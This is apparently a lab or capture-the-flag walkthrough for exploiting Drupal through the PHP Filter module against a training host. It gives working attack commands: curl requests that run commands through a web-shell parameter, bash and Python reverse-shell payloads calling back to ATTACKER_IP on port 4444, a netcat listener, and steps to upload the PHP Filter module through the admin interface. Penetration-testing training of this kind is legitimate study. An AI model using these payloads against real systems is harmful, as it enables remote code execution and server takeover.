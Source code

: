 #### Step 4: Payload Execution & Testing
```bash
# Test code execution (assuming node/3 was created)
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id"

# Expected output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# System enumeration
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=uname+-a"

# Directory listing
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=ls+-la"

# Find flag files
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=find+/var/www+-name+'flag*'"
```

#### Step 5: Reverse Shell Establishment
```bash
# Setup listener on attacking machine
nc -nvlp 4444

# Bash reverse shell via URL encoding
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'"

# Alternative: Python reverse shell
python_shell="python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\"])'"

# URL encode and execute
curl -s "http://drupal-qa.inlanefreight.local/node/3" --data-urlencode "dcfdd5e021a869fcc6dfaef8bf31377e=$python_shell"
```

### Drupal 8+ PHP Filter Installation

#### Manual PHP Filter Module Installation
```bash
# Download PHP Filter module for Drupal 8+
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

# Extract module
tar -xzf php-8.x-1.1.tar.gz
```

#### Installation via Admin Interface
**Navigation Path:**
1. **Administration** → **Reports** → **Available updates** (`/admin/reports/updates/install`)
2. **Install new module** section
3. **Upload archive file** → Browse to downloaded tar.gz
4. **Install** button to upload and activate
